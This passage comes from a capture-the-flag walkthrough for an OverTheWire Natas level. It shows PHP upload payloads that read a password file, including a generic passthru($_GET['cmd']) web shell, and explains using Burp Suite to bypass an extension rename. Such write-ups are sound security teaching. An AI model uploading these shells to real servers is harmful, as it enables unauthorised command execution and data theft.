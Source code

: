 ```
<?php
readfile('/etc/natas_webpass/natas13');
?>
```

[readfile()]:  http://php.net/manual/en/function.readfile.php

We could also use a [system] command:

```php
<?php
system("cat /etc/natas_webpass/natas13");
?>
```

[system]: http://php.net/manual/en/function.system.php

Or we could even use [passthru] again:

```php
 <?php
 passthru($_GET['cmd']);
 ?>
```
Any of these exploits will work.





Now, let's work our way around the fact that the browser will attempt to change our script extension from *php* to *jpg*.

There are several ways to fix this. An easy way is to use a proxy or  extension, such as [Burp Suite] or [FireBug] to change the filename before it is sent to the server.

We use *Burp* and the attack is stated in the following steps:

1. Our exploit script in PHP is uploaded by the server and renamed with a random string and a *jpg* extension.

2. We intercept the request and change the name of the file back to the name of the script with *php* extension.

3. We send it to the server, which calls the function *MakeRandomPathFromFilename("upload","exploit.php")*. This is sent to the function MakeRandomPath('upload', '.php').

4. The server returns the link */upload/randomString.php*, which runs our exploit and returns the password.


#### Firing up Burp:

[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/

If this is your first time with Burp, [this is how you run it]. Burp works as an HTTP proxy server, where all  HTTP/S traffic from your browser passes through it. I will show in details how to do this in a *nix system.


[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html

First, we lauch Burp:

```sh
$ java -jar -Xmx1024m /path/to/burp.jar
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits